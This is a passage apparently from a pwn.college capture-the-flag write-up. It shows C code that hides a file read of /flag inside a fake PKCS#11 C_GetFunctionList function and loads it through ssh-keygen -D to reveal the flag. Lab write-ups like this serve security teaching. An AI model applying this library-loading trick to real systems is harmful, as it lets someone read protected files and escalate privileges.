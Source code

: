 A priori, this would be the first function called when importing, so we'll put our code there.

**Second attempt**

```c
#include <stdio.h>

void C_GetFunctionList()
{
    FILE *fd;

    char filename[] = "/flag";
    char c = 0;

    fd = fopen(filename, "r");

    while ((c = fgetc(fd)) != EOF)
        printf ("%c", c);

    fclose(fd);
}
```

Same compilation and transfer steps :

```shell
$ ssh-keygen -D /tmp/lib.so
pwn.college{redacted}
Segmentation fault
```

We finally found it !

